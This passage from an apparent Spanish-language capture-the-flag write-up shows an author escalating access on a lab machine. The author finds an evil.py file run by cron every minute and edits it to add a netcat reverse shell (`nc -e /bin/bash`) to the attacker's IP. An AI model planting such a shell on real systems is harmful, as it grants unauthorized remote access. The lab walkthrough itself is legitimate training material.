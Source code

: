 Veo que existe un directorio `.secrets`. Compruebo su contenido y obtengo un fichero llamado `evil.py`.

![alt text](../assets/images/starwars1/image-82.png)

Este fichero parece indicar que "Deja que el miedo fluya a través de ti cada minuto." Es decir que debe ejecutarse algo cada minuto en la maquina, lo que me indica que hay un trabajo en cron cada minuto.


Voy a abusar de que este fichero evil.py se ejecuta cada minuto para lanzar una shell reversa contra mi maquina atacante mediante el uso de netcat. 

Edito el archivo evil.py con el comando:

```sh
nano evil.py
```
Mi maquina atancante tiene la IP 192.168.88.3 y selecciono el puerto 7331 que esta libre. Con estos datos añado las lineas:

```
import os
os.system("nc -e /bin/bash 192.168.88.3 7331")
```

![alt text](../assets/images/starwars1/image-84.png)
